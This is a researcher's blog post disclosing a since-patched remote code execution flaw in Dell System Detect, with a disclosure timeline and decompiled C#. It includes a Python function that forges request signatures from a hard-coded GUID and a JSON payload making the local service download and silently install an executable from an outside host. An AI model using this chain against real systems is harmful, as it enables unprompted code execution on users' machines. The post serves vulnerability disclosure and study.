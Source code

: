 ```yaml
---
title: "Dell System Detect RCE vulnerability"
date: 2015-03-23 15:16:10.058935
tags:
   - security
---
```


I recently discovered a serious flaw with Dell System Detect that allowed an attacker to trigger the program to download and execute an arbitrary file without any user interaction. Below is a summary of the issue and the steps taken to bypass the protections Dell put in place.

*Timeline:*

The issue was fixed within two months and Dell were clear in their communications throughout.

   * 11/11/2014 - Contacted Dell about the issue and received an acknowledgement
   * 14/11/2014 - Received confirmation that Dells Internal Assessment team is investigating
   * 9/1/2015 - Dell state that they have fixed the issue by introducing additional validation and obfuscation
   * 10/1/2015 - Checked patched program and could not reproduce this exploit
   * 23/3/2015 - This post is published

### Summary
Anyone who has owned a Dell will be familiar with the [Dell Support page](https://www.dell.com/support/). You can get all the latest drivers for your exact machine configuration from this site by entering your Dell Service Tag, which can be found on a sticker somewhere on your machine or through clicking the shiny blue "Detect Product" button.

![](2014-12-15_20_57_40-_HR3AJAFL.png)

Clicking this button prompts you to download and install the "Dell System Detect" program, which is used to auto fill the service tag input and show you the relevant drivers for your machine.

While investigating this rather innocuous looking program I discovered that it accepts commands by listening for HTTP requests on *localhost:8884* and that the security restrictions Dell put in place are easily bypassed, meaning an attacker could trigger the program to download and install any arbitrary executable from a remote location with no user interaction at all.

### The interesting bit
If you click the button you are prompted to download and install the "Dell System Detect" program which conspicuously sits in your taskbar and starts itself with your machine. So this program is clearly part of the process of autodetecting the service tag, but how does the browser page communicate with it? You can use Chrome's excellent developer tools to view the network traffic of the page and see that it makes several requests to a service listening on localhost port 8884:

![](http_connect_U47J6VNA.png)

Ok, so it seems that the Dell System Detect runs a HTTP server that listens for requests, which are sent from the Dell Support page's JavaScript. So let's take a closer look at the program - it's a .NET 2.0 executable and can be completely decompiled with [dotPeek](https://www.jetbrains.com/decompiler/) into a set of Visual Studio solutions. A quick search through the code for "http" brings us to *eSupport.Common.Client.Service.RequestHandlers.ProcessRequest* which is responsible for processing a request through the processes HTTP port. Below is an abbreviated snippet showing how this function authenticates that requests come from a valid Dell domain:

```csharp
public void ProcessRequest(HttpListenerContext context)
{
    String url = "";
    if (context.Request.UrlReferrer == null) url = context.Request.Headers["Origin"];
    else url = context.Request.UrlReferrer.AbsoluteUri;

    if (absoluteUri.Contains("dell"))
    {
        if (context.Request.HttpMethod == "GET")
          this.HandleGet(context);
        else if (context.Request.HttpMethod == "POST")
          this.HandlePost(context);
        ...
    }
}
```

So that's our first issue: the program attempts to verify that the request is sent from a Dell domain by only checking if "dell" is in either the HTTP Referrer or Origin headers. Why is this a problem? **The HTTP Referrer can contain the *full* request URI** including the host and path. This means an attacker could easily make a request with an origin of "https://hacker.com/dell" and this would pass the initial test as "dell" is in the string. 

Armed with this information we can make requests to the program that are at least partially processed. Inside each of the method handlers (*HandleGet*, *HandlePost*) there is a fair bit of messy code, but below is a simplified version:

```csharp
private void HandleGet(HttpListenerContext context)
{
  string[] urlParts = context.Request.Url.AbsolutePath.Split('/');
  MethodInfo method = FindService(urlParts[0]), urlParts[1]);

  string signature = context.Request.QueryString["signature"];
  string str3 = context.Request.QueryString["expires"];
  bool verified = new AuthenticationHandler().Authenticate(urlParts[0], urlParts[1], str3, signature);
  if (!verified) return Error()

  var result = method.Invoke(GetParameters(context.Request));
  return MakeResponse(result);
}
```

This function splits the request URL by the slash and uses the first two components to find the correct service to execute. In the Chrome screenshot above we see that the web page is making a request to **clientservice/isalive**, which means the program will execute the **isalive** method in the **clientservice** service.

After the service has been found it inspects two query string parameters, *signature* and *expires*, and passes them to the *Authenticate* method. If this passes then the service is invoked with other query string parameters as arguments.

It seems obvious by now that the program does a little bit more than simply retrieve your service tag, so before we look into the *Authenticate* method let's see what interesting things we can do.

### Services
There are three services that can be used: **diagnosticservice**, **downloadservice** and **clientservice**. Within these are 25 methods, including *getservicetag*, *getdevices*, *getsysteminfo*, *checkadminrights* and *downloadfiles*. It seems that the entire Dell system support package is included with System Detect, meaning if we can bypass the authentication then we can trigger any of these methods.

The most interesting method is called **downloadandautoinstall**, which does exactly what it says on the tin.

```csharp
[ServiceName("downloadservice")]
public class DownloadServiceLogic
{
    [RemoteMethodName("downloadandautoinstall")]
    public static ServiceResponse DownloadAndAutoInstall(string files)
    {
        // Download and execute URL's passed in the files parameter without prompting the user
    }
}
```

If we can bypass the *Authenticate* method then we can trigger this function which will download and execute whatever file we tell it to by making a request to **https://localhost:8884/downloadservice/downloadandautoinstall**. So lets take a look at the authenticate method which is the only thing stopping us:

```csharp
public bool Authenticate(string service, string method, string expiration, string signature)
{
    var secret = string.Format("{0}_{1}_{2}_{3}", service, method, expiration, "37d42206-2f68-48be-a09a-9f9b6424ad85");
    var hash = new SHA256Managed().ComputeHash(Encoding.UTF8.GetBytes(secret));

    string stringToEscape = Convert.ToBase64String(hash).TrimEnd('=');
    bool flag = stringToEscape.ToLower() == signature.ToLower() || Uri.EscapeDataString(stringToEscape).ToLower() == signature.ToLower();
    if (!flag)
        ErrorLog.WriteLog("Not authenticated");
    return flag;
}
```

Wow. Ok, so not exactly the hardest thing to break. The service, method, expiration and signature arguments are all attacker controlled and passed through GET arguments. The only thing not controlled by a remote attacker is the hard-coded GUID *"2f68-48be-a09a-9f9b6424ad85"*.

Essentially all the function does is create a string with the arguments and the GUID then compare it with the one the user has given, and if it is a match the user is 'authenticated'. With this information in hand we can create a simple Python function to generate a valid signature:

```python
def make_signature(service, method):
    expiration = int(time.time()) + 400000

    secret_string = "{}_{}_{}_{}".format(
        service, method, expiration, "37d42206-2f68-48be-a09a-9f9b6424ad85"
    )

    hashed = hashlib.sha256(unicode(secret_string, "utf-8"))
    print("Secret: {}".format(secret_string))
    print("Hash: {}".format(hashed.hexdigest()))
    return expiration, base64.encodestring(hashed.digest()).rstrip(b"\n").rstrip(b"=")
```

If we can generate a valid token then we can trigger the "downloadandautoinstall" method with our arbitrary file by causing the user to make a GET request, which is very very easy to do. A simple way would be to embed an image in a web page with the source set to "https://localhost:8884/downloadservice/downloadandautoinstall" with the appropriate GET arguments. After some investigation it seems that the DownloadAutoInstall method needs a list of JSON strings containing information about files to download and install. Sending a JSON object like the following with a valid signature will trigger a download:

```python
{
    "Name": "messbox.exe",
    "InstallOrder": 1,
    "IsDownload": True,
    "IsAutoInstall": True,
    "Location": "https://www.greyhathacker.net/tools/messbox.exe"
}
```


### Conclusion
So in conclusion we can make anyone running this software download and install an arbitrary file by triggering their web browser to make a request to a crafted *localhost* URL. This can be achieved a number of ways, and the service will faithfully download and execute our payload without prompting the user.

I don't think Dell should be including all this functionality in such a simple tool and should have ensured adequate protection against malicious inputs. After contacting Dell and discussing the issue with their internal security team they pushed out a fix that included obfuscating the downloaded binary. While I cannot be sure I think they simply changed the conditional from "if dell in referrer" to "if dell in referrer domain name", which may be slightly harder to exploit but just as severe. There is now also a big agreement you have to accept before downloading that specifies what the software can do.

    